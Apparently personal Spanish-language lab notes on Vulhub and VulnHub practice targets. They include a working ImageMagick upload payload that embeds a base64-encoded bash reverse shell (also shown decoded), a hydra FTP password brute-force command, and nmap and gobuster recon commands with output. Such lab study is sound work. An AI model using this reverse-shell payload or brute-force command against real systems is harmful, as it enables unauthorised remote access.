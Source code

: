 
----
## Imagemagick - vulhub github

SImplemente subiomos un archivo malicioso después de haber echo fuzzing con extensiones de archivo a ver cuále sacepta con esta wordlist -->https://github.com/maverickNerd/wordlists/blob/master/files/common-files.txt

Subimos este código 

`push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xOS4wLjEvODc3NyAwPiYx | base64 -d | bash`"||id " )'
pop graphic-context`

- Dónde lo que hay en base64 es
`/bin/bash -i >& /dev/tcp/172.19.0.1/8777 0>&1`

Así que utilizaremos echo -n para que no haya saltos de línea y lo meteremos al código anterior

`echo -n "/bin/bash -i >& /dev/tcp/172.19.0.1/8777 0>&1" | base64`

Nos ponemos en escucha, subimos archivo y powned
![[Pasted image 20250309173028.png]]

## FTP Vulnerable 

- sudo nmap -sVC -p21 127.0.0.1

Probamos a reventar la passwd suponiendo que nos sabemos el user

hydra -l sergio -P passwords.txt ftp://127.0.0.1 -t 15
## IMF

- [Sitio de la ova](https://www.vulnhub.com/entry/imf-1,162/)

- Venga hacemos recon
```bash
sudo arp-scan --localnet --ignoredup -Ieth0
sudo netdiscover -r 192.168.1.148
sudo nmap -sS -sU -Pn -p- -T5 --min-rate=5000 -v 192.168.1.148
sudo nmap -sVC -Pn -p80 -T5 --min-rate=5000 -v 192.168.1.148
gobuster dir -u http://192.168.1.148/ -w /usr/share/wordlists/dirb/common.txt 
```


```nmap
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: IMF - Homepage
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:36:C1:88 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```
